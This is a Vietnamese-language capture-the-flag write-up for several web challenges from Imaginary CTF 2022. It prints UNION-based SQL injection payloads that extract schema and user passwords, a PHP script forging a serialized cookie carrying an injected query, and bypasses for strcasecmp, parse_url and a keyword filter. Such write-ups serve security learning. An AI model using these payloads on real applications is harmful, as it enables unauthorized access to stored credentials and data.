 ```yaml
---
title: "Imaginary CTF 2022"
author: "mtiennnnn"
tags: write-up web
---
```


# level01

![image](https://user-images.githubusercontent.com/75429369/179963339-bc0671f2-f043-4b12-a74a-3fd5ca44348c.png)

Sqlite3 có query hoàn toàn có thể thực hiện sqli, fuzz số cột thì biết được có 2 cột

```
1 and 1=0 union select sql,sql from sqlite_master -- '
```

![image](https://user-images.githubusercontent.com/75429369/179965358-c36348da-ac37-4f0d-891b-e9f4bb468304.png)

Có password kìa select nó ra với id 1 nào

```
1 and 1=0 union select password,password from users where id = 1 --'
```

![image](https://user-images.githubusercontent.com/75429369/179965685-6e109132-1c56-4b00-9b44-291905d404c7.png)

# level04

Bài cho 2 source code, source thứ nhất có chỗ đáng lưu ý sau

![image](https://user-images.githubusercontent.com/75429369/179966473-82c383f6-4bd9-4dcd-89bf-26e1fca980f9.png)

Kiểm tra có cookie và sẽ unserialize cái cookie đấy. Source thứ hai:

![image](https://user-images.githubusercontent.com/75429369/179966371-845ea550-b87f-4913-8972-ad29b77a98eb.png)

Có function `SQL_query` trỏ vào `$query` có liên kết với source thứ nhất. Với id = 1 thì ta được flag nên giờ chỉ cần select được tới nó là xong, đơn giản chỉ cần modify cái cookie thành serialize của class SQL mà trong đó sẽ có query sqli inject thêm từ query có sẵn trong source (nhớ base64 nữa).

```php
<?php 
class SQL {
  public $query = "SELECT username from users where id=1 UNION SELECT password from users where id=1";
}

$a = new SQL();
echo base64_encode(serialize($a));
?>
```

![image](https://user-images.githubusercontent.com/75429369/179969680-394dcc22-5173-4012-a1b5-cb43b030e870.png)

![image](https://user-images.githubusercontent.com/75429369/179969719-d132c13e-9a11-4ae4-9857-f609ef502872.png)

# level17

Bài này bắt ta nhập biến `flag` sau đó so sánh bằng hàm `strcasecmp` với $flag có sẵn, nếu ra sai thì sẽ cho flag. Có thể tham khảo hàm `strcasecmp` tại [đây](https://www.php.net/manual/en/function.strcasecmp.php)

![image](https://user-images.githubusercontent.com/75429369/179970219-15775230-4cbe-489e-a834-6f7d667d9ee1.png)

Trick để bypass bài này là thay vì nhập $flag là một string thì ta sẽ nhập dưới dạng một array, lúc này kết quả so sánh sẽ trả về `NULL` (tự debug nha)

![image](https://user-images.githubusercontent.com/75429369/179972273-94a3252b-73b0-4ebb-a7d7-a8e305fa332f.png)

# level25

Bài này cho nhập vào một trang muốn include. Đọc source lưu ý chỗ như sau

![image](https://user-images.githubusercontent.com/75429369/179972889-c83b046a-89ab-4f7d-b597-87d1db3aea56.png)

![image](https://user-images.githubusercontent.com/75429369/179972913-5c18ef80-d9cb-4ca4-86e5-2f5a71d5666a.png)

Ban đầu thấy biến `page` tưởng chừng path travelsal nhưng ở bước include nó đã thêm .txt vào đuôi rồi nên ta không thể đi theo hướng này.

Phân tích chỗ parse_url(), trước hết ta phải hiểu nó làm gì đã

![image](https://user-images.githubusercontent.com/75429369/179973464-1814f784-657f-4323-89e2-3c1e6647114e.png)

Vậy thì sau khi parse nó sẽ tạo ra mảng như trên, như trong source code sẽ lấy phần query ra và kiểm tra nếu chứa chữ `flag` thì sẽ báo lỗi.

Ở đây sẽ có nhiều hướng bypass, cách dễ dàng nhất là sử dụng 3 dấu slash, tham khảo thêm ở [đây](https://www.php.net/manual/en/function.parse-url.php) và [đây](https://blog.birost.com/a?ID=01000-ed462190-b4c0-40c0-84bb-0c96dc4be3fb)

![image](https://user-images.githubusercontent.com/75429369/179976647-a03f2616-9579-482a-8a44-7de0114a8a16.png)

Hoặc ta có thể nhập định dạng sai, ở đây mình thêm `:3` vào phía sau (tự debug nhé)

![image](https://user-images.githubusercontent.com/75429369/179977161-ad890710-8f82-463a-a880-d90b740826c8.png)

# level02

Bài này giống y hệt level 01, chỉ khác là sử dụng `preg_replace` để filter các kí tự cho payload sqli

![image](https://user-images.githubusercontent.com/75429369/179978149-ee531064-0cb0-43e9-a6d8-e417cd8e04d4.png)

Bypass chỗ này bằng cách sau

![image](https://user-images.githubusercontent.com/75429369/179978630-983e36d5-e2b7-4da4-876a-22f5fbdc7b8a.png)

Payload thì làm i hệt như level 1

```
1 and 1=0 uniunionon seleselectct password,password frofromm users where id=1 -- '
```

![image](https://user-images.githubusercontent.com/75429369/179978918-23302c26-493c-405a-8256-9d4e5e04902b.png)

> to be continued.!!!>!>











